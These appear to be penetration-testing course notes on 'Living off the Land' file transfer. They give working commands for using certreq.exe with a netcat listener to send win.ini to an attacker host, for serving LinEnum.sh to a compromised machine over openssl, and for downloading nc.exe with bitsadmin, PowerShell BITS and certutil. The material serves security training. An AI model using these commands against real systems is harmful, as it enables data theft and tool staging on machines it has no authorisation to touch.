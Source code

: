 Living off the Land binaries can be used to perform functions such as:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses


# Let's use CertReq.exe as an example:
---
- **We need to listen on a port on our attack host for incoming traffic using Netca**t and then execute certreq.exe to upload a file.
- Listen on Attacker Box:
	- `nc -lnvp 8000`
- Upload win.ini to our Attacker Box:
	- `certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini`
- This will send the file to our Netcat session, and we can copy-paste its contents.
- ![[Pasted image 20250623065236.png]]

# GTFOBins
---
- To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), **we can use `+file download` or `+file upload`.**

## OpenSSL
---
- We need to create a certificate and start a server in our Pwnbox / Attacker Machine:
	- `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`
- Stand up the Server in our Pwnbox:
	- `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`
- Next, with the server running, we need to download the file from the compromised machine:
	- `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`

# Other Common Living off the Land tools
---
## Bitsadmin Download function
- The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. 
- It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

- File Download with Bitsadmin:
	- ` bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe`
- PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
- Download:
	- `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"`

## Certutil
---
- Download a File with Certutil:
	- `certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe`